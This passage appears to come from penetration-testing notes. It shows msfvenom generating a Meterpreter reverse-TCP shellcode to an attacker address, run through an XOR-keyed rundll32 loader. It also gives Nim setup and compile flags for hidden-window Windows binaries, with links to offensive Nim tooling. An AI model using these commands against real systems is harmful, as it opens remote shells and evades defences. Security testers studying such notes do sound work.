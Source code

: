 ```text
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```

## Nim

### Install

Windows:

* [https://nim-lang.org/install\_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```text
$ sudo apt install mingw-w64 -y
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

### Compile

General:

```text
Nim > nim c program.nim
```

To not popup the Nim binaries console window:

```text
Nim > nim c --app:gui program.nim
```

For the best size:

```text
Nim > nim c -d:danger -d:strip --opt:size --passc=-flto --passl=-flto program.nim
```

For Windows on Linux:

```text
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

### Execute C\# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute\_assembly\_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)
